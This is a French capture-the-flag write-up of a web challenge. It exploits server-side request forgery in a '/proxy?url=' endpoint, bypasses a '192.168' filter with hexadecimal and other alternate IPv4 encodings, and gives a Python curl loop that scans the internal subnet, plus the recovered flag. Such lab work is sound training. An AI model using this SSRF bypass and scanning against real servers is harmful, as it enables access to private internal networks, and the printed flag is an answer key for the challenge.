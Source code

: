 # ChatBot

[Lien](https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3/challenge-detail.php?chall=31)

Category : Web

Points : 100

## Description

EvilGouv a récemment ouvert un service de chat-bot, vous savez ces trucs que personne n'aime. Bon en plus d'être particulièrement nul, il doit forcément y avoir une faille. Trouvez un moyen d'accéder à l'intranet !

Lien : https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4

Indice : Réseau local

Le flag est de la forme : DGSESIEE{x} avec x un hash


## Solution

L'analyse du source HTML et de `script.js` montre qu'il y a trois *endpoints* dans l'appli web :
- `/`
- `/bot?message=`
- `/proxy?url=`

Seul `/proxy?url=` a un intérêt: il initie une requête HTTP depuis la machine du CTF, puis cherche les éléments `<title>` et `<link rel="shortcut icon" href="...">` et retourne un document JSON avec le contenu, le titre et le lien vers l'icône. Malheureusement, pas ni header ni faille connue (genre [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)).

On remarque quatre types de comportement:
* retour `Forbidden`
* retour `Not Found`
* retour avec le contenu de la ressource dans un JSON, éventuellement avec le statut HTTP si ce n'est pas 200
* *timeout*

Cependant, sur les adresses de réseau local du type `192.168.x.y` adresses (cf. indice), on constate que le retour `Forbidden` est immédiat. Il y aurait donc un filtrage au niveau de l'adresse ou de la chaîne de caractère. Un petit essai avec `192.168.1.1` et `0xc0a80101` montre le changement de comportement: `Forbidden` vs. *timeout* ! On tient notre piste. Le *endpoint* `/proxy?url=` teste donc que l'adresse n'est pas de la forme `192.168.*.*`.

Un peu d'expérimentation et on s'aperçoit que `0xc0a80001` (`192.168.0.1`) provoque un `Not Found` tandis que `0xc0.0xa8.x.y` avec x ≥ 1 provoque un `timeout`.

Petite boucle d'un **subtil** bruteforce:
```python
#!/usr/bin/env python3
import os
for i in range(1, 255):
    os.system(f"curl https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://0xC0A800{i:02x}/ &")
```

et on obtient le flag en quelques secondes.

```json
{"contents":"<!DOCTYPE html>\n<html>\n\n<head>\n  <meta charset=\"utf-8\">\n  <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n  <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n  <link href=\"/35e334a1ef338faf064da9eb5f861d3c/fontawesome/css/all.min.css\" rel=\"stylesheet\">\n  <link href=\"/35e334a1ef338faf064da9eb5f861d3c/bootstrap/css/bootstrap.min.css\" rel=\"stylesheet\">\n  <link href=\"/35e334a1ef338faf064da9eb5f861d3c/css/style_index.css\" rel=\"stylesheet\">\n  <link rel=\"icon\" href=\"/35e334a1ef338faf064da9eb5f861d3c/img/favicon.ico\" />\n  <title>Evil Gouv intranet</title>\n</head>\n\n<body>\n  <div>\n    <h1>FLAG DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}</h1>\n</div>\n</body>\n<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/jquery-3.5.1.min.js\"></script>\n<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/popper.min.js\"></script>\n<script src=\"/35e334a1ef338faf064da9eb5f861d3c/js/bootstrap.min.js\"></script>\n\n</html>","title":"Evil Gouv intranet","icon":"Null"}
```

Le résultat s'obtient pour `192.168.0.70`, qui est donc l'adresse de l'intranet:
```bash
curl https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://0xC0A80046
```

Nota: Il y a une multitude de formats pour l'adresse IPv4 qui fonctionnent: `http://192.168.70`, `http://192.0xA8.0.70`, `http://3232235590`, etc.

## Flag

`DGSESIEE{2cf1655ac88a52d3fe96cb60c371a838}`
